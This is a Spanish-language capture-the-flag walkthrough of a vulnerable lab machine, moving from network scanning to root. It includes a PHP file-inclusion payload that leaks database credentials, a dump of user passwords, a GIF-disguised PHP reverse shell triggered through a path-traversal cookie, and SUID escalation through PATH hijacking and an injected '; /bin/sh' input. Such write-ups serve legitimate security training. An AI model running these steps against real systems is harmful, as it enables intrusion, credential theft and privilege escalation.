 Comenzamos obteniendo la ip de nuestra maquina para buscar las IP dentro de la red y encontrar la maquina victima.
```
ifconfig 
```

- Con " netdiscover " buscaremos los dispositivos conectados al segmento de red de nuestro equipo
	```
	sudo netdiscover -r 192.168.1.0/24
	```

Una ves identificada la IP de la victima procenemos hacer un escaneo con nmap a la IP de la maquina victima:
```
sudo nmap -sV 192.168.0.49
```

Encontramos los siguentes puertos abiertos:

| Puerto   | Servicio | Versión                        |
| -------- | -------- | ------------------------------ |
| 80/tcp   | http     | Apache httpd 2.4.10 ((Debian)) |
| 111/tcp  | rpcbind  | 2-4 (RPC #100000)              |
| 3306/tcp | mysql    | MySQL 5.5.47-0+deb8u1          |
- ### **HTTP (HyperText Transfer Protocol)**
	- **¿Qué es?**  
	    - Es el protocolo principal que usan los navegadores web para comunicarse con servidores web. Se encarga de transferir páginas web, imágenes, archivos, etc.
	- **Puerto por defecto:**  
	    - 80 (para HTTP), 443 (para HTTPS, que es la versión segura con cifrado).
	- **Ejemplo de uso:**  
	    - Cuando escribes `http://www.ejemplo.com`, tu navegador hace una solicitud HTTP al servidor para que te envíe el contenido de esa página.
- ### **RPCBind (Remote Procedure Call Bind)**
	- **¿Qué es?**  
	    - Es un servicio que se usa en sistemas Unix/Linux para mapear servicios RPC (Remote Procedure Call). Es decir, permite a otros programas encontrar y conectarse a servicios que se ejecutan en puertos dinámicos.
	- **Puerto por defecto:**  
	    - 111 (tanto TCP como UDP).
	- **Ejemplo de uso:**  
	    - Muy común en sistemas NFS (Network File System). Por ejemplo, si un servidor exporta un sistema de archivos usando NFS, `rpcbind` ayuda a que los clientes descubran qué puerto deben usar para acceder a ese sistema de archivos.
- ### **MySQL**
	- **¿Qué es?**  
	    - Es un sistema de gestión de bases de datos relacional (RDBMS), muy utilizado para almacenar y gestionar datos estructurados. Es ampliamente usado con aplicaciones web (por ejemplo, en WordPress, Joomla, etc.).
	- **Puerto por defecto:**  
	    - 3306 (TCP).
	- **Ejemplo de uso:**  
	    - Una aplicación web puede usar MySQL para almacenar usuarios, contraseñas, artículos, productos, etc. Las consultas a la base de datos se hacen usando SQL (Structured Query Language).

Revisamos la paguina web y vemos:


En este link se encuentra algunas formas de aplicar local file inclusion PHP https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/ 
- Using PHP stream 
	- ?file=php://filter/convert.base64-encode/resource=index.php
- Nos permite obtener el codigo en base64
	- 
```
base64 -d <<< PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8
```
El resultado:
`<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?base64: entrada inválida`

Ahora nos podemos conectar a la base de datos:
```
mysql -u root -p -h 192.168.0.49
```
```
use Users
```
```
show tables;
```
```
select * from users;
```

Nos muestra una sola tabla de usuarios con su usuario y contraseña:
```
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
```

Decodificamos la contraseña en base64:
```
base64 -d <<< Sld6WHVCSkpOeQ==
```
El resultado es:  JWzXuBJJNy
y iniciamos sesión intentamos subir un archivo con código php pero nos da el error:
- 
Contraseñas decodificadas:
kent: JWzXuBJJNy
mike: SIfdsTEn6I
kane: iSv5Ym2GRo

Y aplicamos el LFI en la carga y vemos que el código valida que se suba una imagen:
- 
```
base64 -d <<< PD9waHANCnNlc3Npb25fc3RhcnQoKTsNCmlmICghaXNzZXQoJF9TRVNTSU9OWyd1c2VyJ10pKSB7IGRpZSgnWW91IG11c3QgYmUgbG9nIGluLicpOyB9DQo/Pg0KPGh0bWw+DQoJPGJvZHk+DQoJCTxmb3JtIGFjdGlvbj0nJyBtZXRob2Q9J3Bvc3QnIGVuY3R5cGU9J211bHRpcGFydC9mb3JtLWRhdGEnPg0KCQkJPGlucHV0IHR5cGU9J2ZpbGUnIG5hbWU9J2ZpbGUnIGlkPSdmaWxlJyAvPg0KCQkJPGlucHV0IHR5cGU9J3N1Ym1pdCcgbmFtZT0nc3VibWl0JyB2YWx1ZT0nVXBsb2FkJy8+DQoJCTwvZm9ybT4NCgk8L2JvZHk+DQo8L2h0bWw+DQo8P3BocCANCmlmKGlzc2V0KCRfUE9TVFsnc3VibWl0J10pKSB7DQoJaWYgKCRfRklMRVNbJ2ZpbGUnXVsnZXJyb3InXSA8PSAwKSB7DQoJCSRmaWxlbmFtZSAgPSAkX0ZJTEVTWydmaWxlJ11bJ25hbWUnXTsNCgkJJGZpbGV0eXBlICA9ICRfRklMRVNbJ2ZpbGUnXVsndHlwZSddOw0KCQkkdXBsb2FkZGlyID0gJ3VwbG9hZC8nOw0KCQkkZmlsZV9leHQgID0gc3RycmNocigkZmlsZW5hbWUsICcuJyk7DQoJCSRpbWFnZWluZm8gPSBnZXRpbWFnZXNpemUoJF9GSUxFU1snZmlsZSddWyd0bXBfbmFtZSddKTsNCgkJJHdoaXRlbGlzdCA9IGFycmF5KCIuanBnIiwiLmpwZWciLCIuZ2lmIiwiLnBuZyIpOyANCg0KCQlpZiAoIShpbl9hcnJheSgkZmlsZV9leHQsICR3aGl0ZWxpc3QpKSkgew0KCQkJZGllKCdOb3QgYWxsb3dlZCBleHRlbnNpb24sIHBsZWFzZSB1cGxvYWQgaW1hZ2VzIG9ubHkuJyk7DQoJCX0NCg0KCQlpZihzdHJwb3MoJGZpbGV0eXBlLCdpbWFnZScpID09PSBmYWxzZSkgew0KCQkJZGllKCdFcnJvciAwMDEnKTsNCgkJfQ0KDQoJCWlmKCRpbWFnZWluZm9bJ21pbWUnXSAhPSAnaW1hZ2UvZ2lmJyAmJiAkaW1hZ2VpbmZvWydtaW1lJ10gIT0gJ2ltYWdlL2pwZWcnICYmICRpbWFnZWluZm9bJ21pbWUnXSAhPSAnaW1hZ2UvanBnJyYmICRpbWFnZWluZm9bJ21pbWUnXSAhPSAnaW1hZ2UvcG5nJykgew0KCQkJZGllKCdFcnJvciAwMDInKTsNCgkJfQ0KDQoJCWlmKHN1YnN0cl9jb3VudCgkZmlsZXR5cGUsICcvJyk+MSl7DQoJCQlkaWUoJ0Vycm9yIDAwMycpOw0KCQl9DQoNCgkJJHVwbG9hZGZpbGUgPSAkdXBsb2FkZGlyIC4gbWQ1KGJhc2VuYW1lKCRfRklMRVNbJ2ZpbGUnXVsnbmFtZSddKSkuJGZpbGVfZXh0Ow0KDQoJCWlmIChtb3ZlX3VwbG9hZGVkX2ZpbGUoJF9GSUxFU1snZmlsZSddWyd0bXBfbmFtZSddLCAkdXBsb2FkZmlsZSkpIHsNCgkJCWVjaG8gIjxpbWcgc3JjPVwiIi4kdXBsb2FkZmlsZS4iXCI+PGJyIC8+IjsNCgkJfSBlbHNlIHsNCgkJCWRpZSgnRXJyb3IgNCcpOw0KCQl9DQoJfQ0KfQ0KDQo/Pg==
```


Como no podemos subir un archivo .php asi tan facil vamos a tener que hacer un cambio de extension para realizar una shell revers, solo que al principio le agregamos un GIF ala shell para que lo detercte como extensión de imagen,

Link del exploit: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Revisamos tambien el index.php de código y esto nos muesdtra la cooke podemos cambiarla por lang:

```
base64 -d <<< PD9waHANCi8vTXVsdGlsaW5ndWFsLiBOb3QgaW1wbGVtZW50ZWQgeWV0Lg0KLy9zZXRjb29raWUoImxhbmciLCJlbi5sYW5nLnBocCIpOw0KaWYgKGlzc2V0KCRfQ09PS0lFWydsYW5nJ10pKQ0Kew0KCWluY2x1ZGUoImxhbmcvIi4kX0NPT0tJRVsnbGFuZyddKTsNCn0NCi8vIE5vdCBpbXBsZW1lbnRlZCB5ZXQuDQo
```

Ese fragmento de código indica que valida si existeuna cookie "lang" si existe la inserta y con eso podemos aprovecha una brecha de seguridad "Inyección de rutas (Path Traversal)"
ejemplo: $_COOKIE['lang'] = "../../malicioso.php";

Entonces aprobecharemos esta inyección para llamar a nuestro archivo y poder iniciar la coneción con netcat.
```
nc -lvp 4444
```
Comando netcat:
- `nc`: es el programa **Netcat**.
- `-n`: no hace resolución de nombres DNS (usa direcciones IP directamente).
- `-l`: pone a Netcat en **modo escucha** (server mode).
- `-v`: modo **verbose** (muestra más información).
- `-p 4444`: especifica el **puerto** en el que escuchará (en este caso, el puerto **4444**).
- `-k`: mantiene Netcat **activo después de que una conexión se cierre** (permite múltiples conexiones consecutivas).

Utilizando burpsuit vamos a modificar esa cookie de sesión:
Vemos que al subir el archivo con la shell incrustada en el archivi .gif nos da una ruta donde se subio: upload/a7200b4bac77e8804f9e48304a92b6d9.gif, esta serṕa la ruta que agregaremos en la cookie "lang"


Cambiamos la cookie PHPSESSID=8vof5p9c3rcrcks057ujl4rvp2 por lang=../upload/a7200b4bac77e8804f9e48304a92b6d9.gif, logrando la conexión.


Buscamos SUID para ver sipodemos elevar ṕrivilegios:
```
find / -perm -u=s -type f 2>/dev/null
```
Pero no puede elevar privilegios por lo que buscado la forma de cambiar de bash encontramos que podemos usar pyhton.

Usando locate podemos validar python:
```
locate python
```
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Que hace:
- `python -c`: le dice a Python que ejecute el código que sigue como una cadena.
- `'import pty; pty.spawn("/bin/bash")'`:
    - `import pty`: importa el módulo `pty` (pseudo-terminal).
    - `pty.spawn("/bin/bash")`: lanza un nuevo proceso interactivo de `/bin/bash` dentro de un _pseudo-terminal_.

Se trato de iniciar sesión con los 3 usuarios y solo con mike no se pudo ingresar, solo tenemos kane y kent para iniciar sesión.

```
su kane
```


Haciendo un ls a home encuentro los directorios de los usuarios mas uno el de john
```
ls /home
```


Entramos a la carpeta de kane y encontramos un archivo "msgmike" y vemos que tenemos permisos de lectura, escritura y aparte setuid "s" y la "x" es sustituida por "s".

Esto significa que si alguien ejecuta este archivo, el proceso se ejecuta con los **privilegios del propietario del archivo** (mike), no del usuario que lo ejecuta.

Realizando un cat para ver el contenido vemos que no es legible pero podemos verlo con strings:
```
cat msgmike
```


Al ejecutar el ejecutble SUID "msgmike" nos da el siguiente error:
`cat: /home/mike/msg.txt: No such file or directory`

Revisando el archivo:
```
strings msgmike
```

vemos que trata de ver un archivo con cat "cat /home/mike/msg.txt" que no existe en el directorio, entonces vamos a generar un binario con los permisos:
```
echo "/bin/sh" > cat
```

```
/bin/chmod 777 cat
```

Exportamos el path
```
export PATH=.:$PATH
```

Ejecuatmos el archivo SUID:
```
./msgmike
```


Dentro del directorio de mike "/home/mike" encontramos otro archivo SUID msg2root:
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root.

Vemos que tambien tiene permisos "S" por lo que al ejecutarlo.
```
./msg2root
```

Usando strings
```
strings msg2root
```
Vemos que usa un echo mandando hablar el archivo "/bin/echo %s >> /root/messages.txt" donde se le manda un mensaje para el root aprovechamos esto para habrir una sh.

Tenemos este mensaje que al detener la ejecución del echo que pudimos ver con strings podemos mandar a llamar una sh:
```
Message for root: ; /bin/sh
```



Vemos que somos usuarios root y buscamos en la carpeta root y vemos la flag:


